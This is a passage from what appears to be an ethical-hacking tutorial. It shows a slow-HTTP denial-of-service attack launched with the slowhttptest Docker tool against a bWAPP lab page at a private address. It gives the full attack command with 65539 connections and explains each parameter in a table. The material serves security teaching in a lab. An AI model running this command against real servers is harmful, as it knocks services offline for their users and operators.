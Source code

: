 <div>
<cta-banner
buttontxt="Read more"
link="/solutions/ethical-hacking/"
title="Get started with Fluid Attacks' Ethical Hacking solution right now"
/>
</div>

Why not do a thousand requests
until every single connection available on the server pool
is busy with us?

To do this, we are going to use a tool.

## Using slowhttptest

First, let’s pull the
[slowhttptest docker image](https://hub.docker.com/r/frapsoft/slowhttptest/)
from the docker hub.

**Bash command.**

``` bash
docker pull frapsoft/slowhttptest
```

And write the following command:

**Bash command.**

``` bash
sudo docker run --name DoSBWAPP --rm  frapsoft/slowhttptest \
-c 65539 -B -i 10 -l 300 -r 10000 -s 16384 -t firstname \
-u "http://192.168.56.101/bWAPP/xss_get.php" -x 10 -p 300
```

The parameters you see are described below:

<div class="tc">

**Table 1. Slowhttptest description**

</div>

|               |                                                                                                                 |
| ------------- | --------------------------------------------------------------------------------------------------------------- |
| \-c 65539     | use 65539 connections                                                                                           |
| \-B           | specify to slow down the http in message body mode                                                              |
| \-i 10        | seconds of interval between follow up data, per connection                                                      |
| \-l 300       | duration of the test in seconds                                                                                 |
| \-p 300       | timeout in seconds to wait for HTTP response on probe connection, after which server is considered inaccessible |
| \-r 10000     | connections per second                                                                                          |
| \-s 16384     | value of Content-Length header                                                                                  |
| \-x 10        | max length of follow up data in bytes                                                                           |
| \-t firstname | add ?firstname=(-x 10bytes) to the target url                                                                   |
| \-u URL       | target URL                                                                                                      |
